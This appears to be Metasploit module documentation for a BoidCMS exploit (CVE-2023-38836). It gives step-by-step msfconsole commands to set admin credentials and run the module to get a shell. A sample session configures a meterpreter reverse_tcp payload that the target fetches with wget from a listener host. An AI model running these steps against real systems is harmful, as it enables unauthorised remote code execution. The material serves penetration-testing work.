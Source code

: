 1. Install BoidCMS
1. Start msfconsole
1. Do: `use exploit/multi/http/cve_2023_38836_boidcms`
1. Do: `set CMS_USERNAME [username]`
1. Do: `set CMS_PASSWORD [password]`
1. Do: `set TARGETURI [target uri]`
1. Do: `run`
1. You should get a shell.

## Options

### CMS_USERNAME
The username for the BoidCMS admin panel.  Default is `admin`

### CMS_PASSWORD
The username for the BoidCMS admin panel.  Default is `password`

### TARGETURI
The root of the web page BoidCMS manages. Empty string by default.

## Scenarios

### BoidCMS on Ubuntu 22.04.1x64

```
msf6 exploit(multi/http/cve_2023_38836_boidcms) > show options

Module options (exploit/multi/http/cve_2023_38836_boidcms):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CMS_PASSWORD  password         yes       Password
   CMS_USERNAME  admin            yes       Username
   PHP_FILENAME  eI1lHLx.php      yes       The name for the php file to upload
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.5.134.129     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                            metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                      yes       The path
   VHOST                          no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      LZfjvRRrNR       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port
```